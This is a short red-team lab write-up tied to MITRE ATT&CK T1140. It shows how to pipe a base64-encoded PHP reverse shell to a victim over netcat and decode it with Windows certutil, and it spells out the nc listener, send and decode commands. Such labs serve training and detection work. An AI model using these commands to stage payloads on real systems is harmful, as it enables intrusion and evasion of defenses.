 ```yaml
---
description: Defense Evasion
---
```


# T1140: Encode/Decode Data with Certutil

In this lab I will transfer a base64 encoded php reverse shell from my attacking machine to the victim machine via netcat and decode the data on the victim system using a native windows binary `certutil`.

## Execution

Preview of the content to be encoded on the attacking system:

![](../.gitbook/assets/certutil-shellphp.png)

Sending the above shell as a base64 encoded string to the victim system \(victim is listening and waiting for the file with `nc -l 4444 > enc`\):

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
base64 < shell.php.gif | nc 10.0.0.2 4444
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the file is received on the victim, let's check its contents:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/certutil-encoded.png)

Let's decode the data:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Let's have a look at the contents of the file `dec` which now contains the base64 decoded shell:

![](../.gitbook/assets/certutil-decoded.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1140" %}

